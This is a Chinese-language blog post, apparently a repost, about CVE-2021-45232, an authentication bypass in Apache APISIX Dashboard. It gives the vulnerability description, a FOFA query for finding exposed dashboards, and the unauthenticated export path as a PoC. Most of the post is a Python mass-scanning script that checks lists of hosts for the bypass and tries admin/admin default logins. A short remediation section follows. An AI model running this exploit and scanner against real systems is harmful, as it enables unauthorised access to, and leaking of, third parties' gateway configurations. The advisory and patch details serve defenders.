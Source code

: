 [Apache APISIX Dashboard 身份验证绕过漏洞 （CVE-2021-45232）](https://www.cnblogs.com/cn-gov/p/15747020.html)
==============================================================================================================================================================
![](https://www.adminxe.com/wp-content/uploads/2020/09/sea.jpg)

### 0x00 漏洞描述

Apache APISIX 是一个动态、实时、高性能的 API 网关，
提供负载均衡、动态上游、灰度发布、服务熔断、身份认证、可观测性等丰富的流量管理功能。Apache
APISIX Dashboard 使用户可通过前端界面操作 Apache APISIX。\
CVE-2021-45232\
该漏洞的存在是由于 Manager API 中的错误。Manager API 在 gin
框架的基础上引入了 droplet 框架，所有的 API 和鉴权中间件都是基于 droplet
框架开发的。但是有些 API 直接使用了框架 gin 的接口，从而绕过身份验证。\
该漏洞危害等级：高危

### 0x01 CVE 编号

``` 
CVE-2021-45232
```

### 0x02 FOFA 查询

``` 
title="Apache APISIX Dashboard"
```

### 0x03 影响范围

```
Apache APISIX Dashboard < 2.10.1
```

根据目前FOFA系统最新数据（一年内数据），显示全球范围内（title="Apache
APISIX Dashboard"）共有 1,110 个相关服务对外开放。中国使用数量最多，共有
966 个；美国第二，共有 55 个；中国香港第三，共有 21 个；日本第四，共有
19 个；新加坡第五，共有 18 个。

### 0x04 漏洞复现

![](https://www.adminxe.com/wp-content/uploads/2021/12/image-4-1024x507.png)

POC:

``` 
 host + /apisix/admin/migrate/export
```

![](https://www.adminxe.com/wp-content/uploads/2021/12/image-5-1024x520.png)![](https://www.adminxe.com/wp-content/uploads/2021/12/image-6-1024x315.png)

### 0x05 批量检测脚本

```
import argparse
import sys

import requests
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36'}


def banner():
    print(r"""
  _______      ________    ___   ___ ___  __        _  _   _____ ___  ____ ___  
 / ____\ \    / /  ____|  |__ \ / _ \__ \/_ |      | || | | ____|__ \|___ \__ \ 
| |     \ \  / /| |__ ______ ) | | | | ) || |______| || |_| |__    ) | __) | ) |
| |      \ \/ / |  __|______/ /| | | |/ / | |______|__   _|___ \  / / |__ < / / 
| |____   \  /  | |____    / /_| |_| / /_ | |         | |  ___) |/ /_ ___) / /_ 
 \_____|   \/   |______|  |____|\___/____||_|         |_| |____/|____|____/____|

                                                                                                               by:Ifory""")


def parse_args():
    parser = argparse.ArgumentParser(
        epilog='\tExample: \r\npython3 ' + sys.argv[0] + ' -u 127.0.0.1:9000')
    parser.add_argument("-u", "--url", type=str,
                        required=False, default=None, help="待检测URL")
    parser.add_argument("-f", "--file", type=str,
                        required=False, default=None, help="批量导入检测")
    return parser.parse_args()


def handle_url(host):
    if 'http' not in host:
        host = 'http://' + host
    return host


def poc(host):
    url = host + '/apisix/admin/migrate/export'
    try:
        respose = requests.get(url, headers=headers, verify=False, timeout=5)
        if "Counsumers" in respose.text:
            print(f"[+]{host} vul!")
            with open("vul.txt", "a", encoding="utf-8") as f:
                f.write(f"{url}\n")
        else:
            print(f"[-]{host} no vul!")
        return True
    except:
        print(f"[-]{host} 页面无法访问")
        return False


def login(host):
    url = host + '/apisix/admin/user/login'
    json = {"username": "admin", "password": "admin"}
    try:
        respose = requests.post(url, headers=headers,
                                json=json, verify=False, timeout=5)
        if '"code":0' in respose.text:
            print(f"[+]{host} default password!")
            with open("vul_login.txt", "a", encoding="utf-8") as f:
                f.write(f"{host}\n")
        else:
            print(f"[-]{host} no default password!")
    except:
        print(f"[-]{host} 页面无法访问")


if __name__ == '__main__':
    banner()
    args = parse_args()
    if args.url:
        host = handle_url(args.url)
        if poc(host):
            login(host)
    else:
        if args.file:
            with open(f"{args.file}", "r", encoding="utf-8") as put:
                for url in put.readlines():
                    host = url.strip()
                    host = handle_url(host)
                    if poc(host):
                        login(host)
```

引用链接：
> https://github.com/Ifory885/CVE-2021-45232/blob/main/CVE-2021-45232.py


### 0x06 修复建议

1、升级至最新安全版本 Apache APISIX Dashboard
2.10.1：https://github.com/apache/apisix-dashboard/releases/tag/v2.10.1\
2、修改默认用户名和密码，并配置访问 Apache APISIX Dashboard的白名单。

转载请注明：[Adminxe\'s Blog](https://www.adminxe.com/) » [Apache APISIX
Dashboard 身份验证绕过漏洞
（CVE-2021-45232）](https://www.adminxe.com/3175.html)
